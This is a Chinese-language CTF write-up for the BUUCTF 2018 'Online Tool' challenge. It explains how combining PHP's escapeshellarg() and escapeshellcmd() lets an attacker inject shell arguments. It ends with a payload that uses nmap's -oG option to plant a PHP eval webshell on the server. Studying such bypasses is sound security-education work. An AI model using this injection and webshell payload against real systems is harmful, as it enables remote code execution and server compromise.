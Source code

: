 # [BUUCTF 2018]Online Tool

## 知识点

`php代码审计`

`escapeshellarg`

`escapeshellcmd`

## 解题

`HTTP_X_FORWARDED_FOR`和`REMOTE_ADDR`都是服务器用来获取`ip`用的，在本题没什么用。下面的代码才是重点。我们需要`host`传参，再经过下面两个函数的处理，最后拼接字符串执行`system`系统函数。`mkdir`函数创建新目录。

现在我们面临的有两个难题，第一个是`escapeshellarg()`和`escapeshellcmd()`函数的绕过，第二个是如何构造命令执行`payload`。

### 函数的绕过

回看上面的代码，如果没有那两个函数的处理，这题就变得简单多了，我们可以执行多参数命令，用`||`或者`;`将前面分割，后面写入我们想要执行的命令。而`escapeshellcmd()`就是阻止多参数命令执行的，因为一整个传参的内容都被当做一串字符串了。虽然命令语句只能执行一个，但是可以指定不同参数，比如

```php
$username = 'myuser1 myuser2';
system('groups '.$username);
=>
//myuser1 : myuser1 adm cdrom sudo
//myuser2 : myuser2 adm cdrom sudo
```

但是在escapeshellarg()函数处理后，就会被当做一个参数来执行命令了。（相关文章：[利用/绕过 PHP escapeshellarg/escapeshellcmd函数 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/107336)）

但它们组合使用时就会造成漏洞，就借用一个大佬的例子，通俗易懂。

```cobol
传入的参数是：172.17.0.2' -v -d a=1
经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。
```

（相关文章链接：[PHP escapeshellarg()+escapeshellcmd() 之殇 (seebug.org)](https://paper.seebug.org/164/)）

也就是说，escapeshellcmd()函数转义了用于转义单引号的斜杠，导致这个单引号与后面的单引号形成了空白连接符就能执行命令了。

### `nmap`构造命令

`system`函数里拼接了`nmap`的指令字符串。`nmap`中的`-oG`参数可以将代码与命令写到文件中，比如`nmap <?php phpinfo();?> -oG 1.php`，就是将这个`phpinfo();`语句写在了`1.php`里内了。

### 构造`payload`

`payload`构造如下

最后需要有`空格`

```php
?host='<?php eval($_POST[1]);?> -oG 1.php '
```

![](./img/[BUUCTF2018]OnlineTool-1.png)

写入木马

![](./img/[BUUCTF2018]OnlineTool-2.png)

[参考文章](https://blog.csdn.net/m0_62422842/article/details/125451022)